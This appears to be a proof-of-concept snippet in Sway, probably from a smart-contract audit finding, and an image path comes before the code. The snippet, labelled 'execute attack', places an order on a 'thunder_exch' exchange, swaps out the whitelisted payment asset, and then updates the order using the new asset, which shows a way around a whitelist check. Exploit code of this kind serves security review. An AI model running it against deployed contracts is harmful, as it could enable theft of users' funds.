 ```sway

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order);

    //now remove the whitelist token and add another one 

    asset_mngr.remove_asset(0);

    let asset_to_add1 = AssetId::from(0x7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777);
    
    asset_mngr.add_asset(asset_to_add1);

    //call update with new paymentAsset

    pool.update_balance(asset_to_add1, 100u64);

    let maker_order1 = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add1,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };

    thunder_exch.update_order(maker_order1);

}

```
